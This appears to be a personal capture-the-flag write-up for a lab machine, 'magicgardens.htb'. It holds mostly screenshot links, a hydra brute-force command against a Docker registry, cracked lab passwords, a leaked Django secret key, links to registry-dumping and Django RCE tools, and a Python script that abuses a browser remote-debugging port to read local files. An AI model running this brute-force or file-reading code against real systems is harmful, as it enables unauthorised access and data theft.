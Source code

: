 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
## External
### Enumeration
![](https://i.imgur.com/42eLp2j.png)
![](https://i.imgur.com/LlQY02V.png)
#### Port `80`
![](https://i.imgur.com/votVtL2.png)
![](https://i.imgur.com/C6qnmU6.png)
![](https://i.imgur.com/D6GvBA4.png)
##### `/profile/?tab=*`
- On the Subscription thing there are many lead that indicate that there is some juicy on Subscribing. Also there is A QR code thing.
![](https://i.imgur.com/wKqI1DL.png)
- There is a message endpoint doing nothing - `http://magicgardens.htb/send_message/`
	- tried xss
##### `/catalog` & `/cart`
![](https://i.imgur.com/YEhhWGA.png)
- The 
![](https://i.imgur.com/adSAAPY.png)
- Tried XSS but nothing
##### `/wish_list`
![](https://i.imgur.com/670X1Ax.png)
- ![](https://i.imgur.com/MTRwh26.png)

##### `/search`
![](https://i.imgur.com/K7eIZKa.png)
##### `/admin`
![](https://i.imgur.com/e7275mw.png)
- WHere is the username come from??
- Based on The Username i got i tried to Bruteforce the username with ssh.
	- ![](https://i.imgur.com/GgmaaCQ.png)
` morty: jonasbrothers`
#### Port `5000`
![](https://i.imgur.com/qP8qrY4.png)
```shell
hydra -L /opt  -P /opt/ 10.129.36.62 -s 5000 https-get /v2/
```
https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry

This need password so, from the `port 80` we will get some kinda credentials and we will use that here.

#### Port `25`
![](https://i.imgur.com/FSmbe1o.png)
`magicgardens.magicgardens.htb`
### Gaining Access
![](https://i.imgur.com/rizlW9A.png)
## Internal
### Enumeration
![](https://i.imgur.com/SkmCcok.png)
![](https://i.imgur.com/mNN2vCH.png)
![](https://i.imgur.com/BM65yI3.png)
![](https://i.imgur.com/91itqa3.png)
![](https://i.imgur.com/9JqCsQ0.png)
```shell
2024/05/21 20:52:47 CMD: UID=0     PID=1680   | /usr/bin/containerd-shim-runc-v2 -namespace moby -id 86197762ad369d60eaef14367dfb0e1df78a465a4ed223b0fe4cc0548093d0f7 -address /run/containerd/containerd.sock
2024/05/21 20:52:47 CMD: UID=0     PID=1653   | /usr/bin/containerd-shim-runc-v2 -namespace moby -id 3ce9ecd76dc5171addd3dce930ec5fc599d5b92b8f2f45aebcafd8da5b66236c -address /run/containerd/containerd.sock
2024/05/21 20:52:47 CMD: UID=0     PID=1652   | /usr/bin/containerd-shim-runc-v2 -namespace moby -id 5d8a4a8d74d5d394caa5cae249c3b8e4891ef51e0bd224e51b6e1f0568424a75 -address /run/containerd/containerd.sock
2024/05/21 20:52:47 CMD: UID=0     PID=1627   | /usr/sbin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8000 -container-ip 172.17.0.2 -container-port 80
2024/05/21 20:52:47 CMD: UID=0     PID=1611   | /usr/sbin/docker-proxy -proto tcp -host-ip :: -host-port 5000 -container-ip 172.17.0.4 -container-port 5000
2024/05/21 20:52:47 CMD: UID=0     PID=1605   | /usr/sbin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 5000 -container-ip 172.17.0.4 -container-port 5000
2024/05/21 20:52:47 CMD: UID=0     PID=1593   | /usr/sbin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8080 -container-ip 172.17.0.3 -container-port 80
```
![](https://i.imgur.com/0MqARmw.png)
- logged in as morty ![](https://i.imgur.com/sptJZe4.png)
- I used the username `alex` and tried to bruteforce the password using [THIS HACKTRICKS](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#docker-registry)
	- Because to access the Docker Registry (`port 50000`) I nee credentials and morty is not working.
	- ![](https://i.imgur.com/O2b3rda.png)
- ` alex : diamonds `
### Gaining Access
![](https://i.imgur.com/aKURzC8.png)
- I dumped all the images. https://github.com/Syzik/DockerRegistryGrabber ![](https://i.imgur.com/4fpvc59.png)
- I extracted the tar file
	- ![](https://i.imgur.com/8O64do7.png)
- I can try to exploit the django, with rce https://github.com/IR4N14N/Django-RCE
	- For this i need settings.json
![](https://i.imgur.com/A3QdSUw.png)
![](https://i.imgur.com/OKDdJdy.png)
```shell
SECRET_KEY=55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87b
```
- Not working so i went back to the `tar` File I dumped and did `deploy.sh` from the grabber script.
### Maintaining Access
- I port forwarded the Firefox Debugging port that i got from the process view(`ps aux`)
	- ![](https://i.imgur.com/uqaK5DZ.png)
- Then I run this Code, on my machine
```python
import json
import requests
import websocket
import base64

debugger_address = 'http://localhost:44351'
response = requests.get(f'{debugger_address}/json')
tabs = response.json()
web_socket_debugger_url = tabs[0]['webSocketDebuggerUrl'].replace('127.0.0.1', 'localhost')
print(f'Connect to url: {web_socket_debugger_url}')
ws = websocket.create_connection(web_socket_debugger_url, suppress_origin=True)

command = json.dumps({
    "id": 5,
    "method": "Target.createTarget",
    "params": {
        "url": "file:///home/alex/user.txt"
    }
})
ws.send(command)
target_id = json.loads(ws.recv())['result']['targetId']
print(f'Target id: {target_id}')

command = json.dumps({
    "id": 5,
    "method": "Target.attachToTarget",
    "params": {
        "targetId": target_id,
        "flatten": True
    }
})
ws.send(command)
session_id = json.loads(ws.recv())['params']['sessionId']
print(f'Session id: {session_id}')

command = json.dumps({
    "id": 5,
    "sessionId": session_id,
    "method": "Page.captureScreenshot",
    "params": {
        "sessionId": session_id,
        "format": "png"
    }
})
ws.send(command)
result = json.loads(ws.recv())
ws.send(command)
result = json.loads(ws.recv())

if 'result' in result and 'data' in result['result']:
    print("Success file reading")
    with open("rex.png", "wb") as file:
        file.write(base64.b64decode(result['result']['data']))
else:
    print("Error file reading")

ws.close()
```
![](https://i.imgur.com/cnw2hY5.png)

# Random Notes

